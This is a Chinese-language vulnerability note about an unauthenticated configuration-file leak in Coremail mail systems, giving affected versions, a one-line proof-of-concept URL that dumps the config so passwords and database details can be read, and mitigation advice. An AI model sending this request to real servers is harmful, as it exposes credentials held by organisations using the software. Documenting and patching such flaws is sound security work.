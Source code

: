 Coremail配置文件信息泄漏
========================

一、漏洞简介
------------

Coremail论客邮件系统开始研发于1999年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过10亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。

2019年6月，网上流传出Coremail论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。

Coremail官网发布的漏洞公告：《关于Coremail邮件系统安全问题的情况说明》，http://www.coremail.cn/About/news\_x/article\_id/32641.htm

二、漏洞影响
------------

Coremail XT 3.0.1至XT 5.0.9版本，XT 5.0.9a及以上版本已修复该漏洞

三、复现过程
------------

### POC

    http://mail.0-sec.org/mailsms/s?func=ADMIN:appState&dumpConfig=/

输入Poc访问漏洞页面发现信息泄露页面内搜索user，password，database等关键字如下图

![](resource/Coremail配置文件信息泄漏/media/rId25.png)

### 四、修复建议

1、在不影响使用的情况下，仅允许VPN连接后才可访问；

2、在Web服务器（nginx/apache）上限制外网对 /mailsms
路径的访问。建议使用Coremail构建邮件服务器的信息系统运营者立即自查，发现存在漏洞后及时修复。
